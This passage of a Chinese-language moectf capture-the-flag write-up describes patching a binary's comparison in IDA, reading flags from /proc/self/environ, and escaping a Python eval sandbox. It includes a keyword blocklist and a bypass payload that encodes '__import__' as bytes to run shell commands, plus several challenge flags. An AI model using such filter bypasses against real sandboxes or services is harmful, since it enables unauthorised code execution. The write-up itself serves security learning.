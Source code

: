 ```
cmp eax, 0Dh # 改成01h
```

`IDA`中的操作是：1.修改：`Edit` → `Patch program` → `Assemble`，2.保存：`Edit` → `Patch program` → `Apply patches to input file`。运行修改后的`.exe`后就得到了`flag`。

```
moectf{Y0u_4re_a_2048_m4st3r!!!!r0erowhu}
```

## Pyjail 0

> A simple reader ~~(所以严格来说这题不算 Pyjail)~~
>
> 关于验证码，示例：Please enter the reverse of 'GZUUAOIS' to continue: SIOAUUZG
>
> 至于 flag 的位置？你可以参考 Web 第十二章（

`Pyjail`沙箱逃逸笔记：https://xz.aliyun.com/news/12093

想起了那个把我恶心坏的`web`第十二章了，在虚拟环境里。

文件路径：``/proc/self/environ``。

接下来我都在`windows`上用`netcat`连接，格式为``netcat localhost <port>``。

此题输入反转字符串和文件地址即得到：

```
moectf{07a71386-d189-c798-f194-04229b0b07e7}
```

## Pyjail 1

> flag 位置在 /tmp 下

```python
def chall():
    user_input = input("Give me your code: ")

    # 过滤关键字
    forbidden_keywords = ['import', 'eval', 'exec', 'open', 'file']
    for keyword in forbidden_keywords:
        if keyword in user_input:
            print(f"Forbidden keyword detected: {keyword}")
            return
    
    result = eval(user_input)
```

我们可以用**字节数组或字符编码**来构造字符串，避免直接写`import`，想要执行如下代码我们可以改写：

```python
getattr(globals()['__builtins__'], '__import__')('os').system('cat /tmp/flag.txt')

getattr(globals()['__builtins__'], bytes([95, 95, 105, 109, 112, 111, 114, 116, 95, 95]).decode())('os').system('cat /tmp/flag.txt')
```
